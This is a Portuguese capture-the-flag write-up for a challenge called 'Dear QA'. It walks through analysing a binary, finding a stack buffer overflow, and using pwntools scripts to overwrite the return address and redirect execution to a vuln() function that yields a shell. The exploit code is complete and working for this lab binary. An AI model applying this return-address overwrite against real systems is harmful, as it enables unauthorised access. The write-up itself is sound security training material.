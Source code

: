# _**Dear QA CTF**_
![](qa.jpg)

## _**Entendo o arquivo**_
Foi alterado o nome do arquivo para _bin_rev_  
Primeiro, vamos executar _file [nome_arquivo]_  

![](file_bin.jpg)

Temos a arquitetura do binário  
Agora, para analisarmos, vamos utilizar a ferramenta <mark>cutter</mark>  

![](main_func.jpg)

Temos a nossa principal função  
Antes de aprofundar, é preciso testar o binário em algumas coisas  
Temos buffer overflow, temos _seg falut_, possível indicação de onde devemos partir para explorar  

![](seg_fault.jpg)

Para explorarmos, é preciso entender como a _stack_ da memória funciona  
Na parte mais acima, é onde temos os primeiros endereços  
Na parte debaixo, é onde temos os últimos endereços  
A escrita na memória começa nos últimos endereços e vai até os primeiros através de uma função: **push**  
Qualquer elemento escrito após, será escrito acima deste elemento primeiro escrito  
Podemos ver que existe um endereço seguro de retorno no final da função  
E também podemos ver que, na função **main()** que: ao ser chamada (scanf), os dados estão sendo escritos em: @ stack - 0x28  
Sabendo disso, vamos realizar um _overwrite_ dos bytes acima e da função de retorno, para termos retorno na função que queremos: **vuln()**  
> ```bash
> from pwn import *
> 
> context.binary = binary = "./bin_rev"
> static = ELF(binary)
> 
> vuln_address = static.symbols.vuln
> payload = b"A"*0x28 + vuln_address.to_bytes(8, 'little')
> 
> p = process()
> p.recvuntil(b"name:")
> p.sendline(payload)
> p.interactive()
> ```
![](first_exploit.jpg)

Conseguimos realizar um **BF** e também obter uma shell  
Vamos agora realizar essa operação na máquina da vítima  
Realizamos as seguintes alterações no código  
> ```bash
> from pwn import *
> 
> context.binary = binary = "./bin_rev"
> static = ELF(binary)
> 
> vuln_address = static.symbols.vuln
> payload = b"A"*0x28 + vuln_address.to_bytes(8, 'little')
> 
> with open("my_payload", "wb") as file:
>         file.write(payload)
> ```
Com isso, poderemos gerar nosso _payload_ e utilizar ele para obter acesso a máquina-alvo  

![](flag.jpg)
